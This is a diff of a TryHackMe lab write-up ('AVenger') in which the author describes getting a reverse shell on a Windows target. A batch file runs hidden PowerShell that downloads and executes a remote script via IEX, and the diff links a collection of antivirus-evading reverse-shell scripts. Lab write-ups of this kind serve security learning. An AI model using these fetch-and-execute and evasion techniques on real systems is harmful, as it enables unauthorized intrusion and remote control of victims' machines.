

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Windows Pentest/THM/AVenger.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Windows Pentest/THM/AVenger.md
+++ b/Windows Pentest/THM/AVenger.md
@@ -149,7 +149,13 @@ Nmap done: 1 IP address (1 host up) scanned in 30.13 seconds
 <img width="1168" height="557" alt="image" src="https://github.com/user-attachments/assets/c186c538-90bb-44c9-bcb9-82b96661b306" />
 
 
-### I searched about powershell reverse shell scripts antivirus evasion , powershell scripts not excutable so I created .bat file
+### I searched about powershell reverse shell scripts antivirus evasion but powershell scripts not excutable
+
+https://github.com/tihanyin/PSSW100AVB/tree/main/scripts
+
+
+### so I created .bat file to excute powershell script
+
 
 ```
 @echo off
@@ -157,7 +163,7 @@ powershell -NoP -NonI -W Hidden -Command "IEX (New-Object Net.WebClient).Downloa
 ```
 
 
-### I open listen port and get reverse shell
+### I opened server on port 80 to recieve requests of powershell script , then I opened listen port and get reverse shell
 
 
 ```
````
